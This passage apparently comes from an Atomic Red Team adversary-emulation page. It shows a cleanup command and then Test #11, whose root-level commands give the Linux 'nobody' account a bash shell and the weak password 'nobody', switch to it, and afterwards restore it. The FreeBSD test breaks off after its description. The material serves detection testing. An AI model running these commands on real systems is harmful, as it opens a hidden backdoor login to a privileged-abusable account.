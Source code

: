 #### Cleanup Commands:
```sh
rmuser -y art
```





<br/>
<br/>

## Atomic Test #11 - Login as nobody (Linux)
An adversary may try to re-purpose a system account to appear legitimate. In this test change the login shell of the nobody account, change its password to nobody, su to nobody, exit, then reset nobody's shell to /usr/sbin/nologin.

**Supported Platforms:** Linux


**auto_generated_guid:** 3d2cd093-ee05-41bd-a802-59ee5c301b85






#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
cat /etc/passwd |grep nobody 
# -> nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
chsh --shell /bin/bash nobody
usermod --password $(openssl passwd -1 nobody) nobody
su nobody
whoami
exit
```

#### Cleanup Commands:
```bash
chsh --shell /usr/sbin/nologin nobody
cat /etc/passwd |grep nobody 
# -> nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```





<br/>
<br/>

## Atomic Test #12 - Login as nobody (freebsd)
An adversary may try to re-purpose a system account to appear legitimate. In this test change the login shell of the nobody account, change its password to nobody, su to nobody, exit, then reset nobody's shell to /usr/sbin/nologin.
